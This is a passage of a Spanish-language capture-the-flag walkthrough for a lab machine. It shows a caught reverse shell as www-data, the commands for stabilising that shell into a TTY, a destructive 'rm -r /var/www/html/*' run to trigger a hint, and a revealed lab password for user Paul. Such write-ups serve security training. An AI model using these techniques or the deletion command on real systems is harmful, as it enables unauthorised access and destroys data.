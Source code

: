 Estando a la escucha le daremos de nuevo a `shell` en el `Tag` y seguidamente le daremos a la opcion llamada `Run`, si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.55] 34626
whoami
www-data
```

Por lo que vemos ha funcionado, por lo que sanitizaremos la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user paul

Antes vimos que en el puerto `6660` pone este mensaje:

```
MESSAGE FOR WWW-DATA:
[31m www-data I offer you a dilemma: if you agree to destroy all your stupid work, then you have a reward in my house...
Paul
```

Vemos que nos esta mencionando que si eliminamos nuestro "trabajo" en este caso el contenido de la carpeta `html/` nos dejara algo en la `/home` del usuario `Paul`, por lo que vamos hacer lo siguiente:

```
rm -r /var/www/html/*
```

Al hacer esto veremos que nos aparece un `password.txt` en la `/home` de `Paul` que pone lo siguiente:

```
Password is: YouCanBecomePaul
```
